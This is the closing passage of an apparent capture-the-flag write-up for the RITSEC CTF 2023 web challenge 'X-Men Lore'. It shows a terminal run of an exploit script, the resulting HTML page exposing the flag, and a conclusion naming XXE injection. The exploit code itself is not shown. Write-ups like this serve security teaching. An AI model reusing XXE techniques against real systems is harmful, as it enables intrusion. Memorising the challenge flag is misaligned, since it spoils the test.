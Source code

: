 ```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|15:04:31(HKT)]
└> python3 encode_xml.py
<!DOCTYPE html>
<head>
  <title>X-Men Lore</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<a href="/"><button>Home</button></a>
<body>
  
    
      <h1>RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
</h1>
      <img src="/static/RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
.jpg" alt="RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
" />
      <br/>
      <iframe src="/static/RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
.html" title="RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}
"></iframe>
    
  
</body>
```

Nice!

- **Flag: `RS{XM3N_L0R3?_M0R3_L1K3_XM3N_3XT3RN4L_3NT1TY!}`**

## Conclusion

What we've learned:

1. XML External Entity (XXE) Injection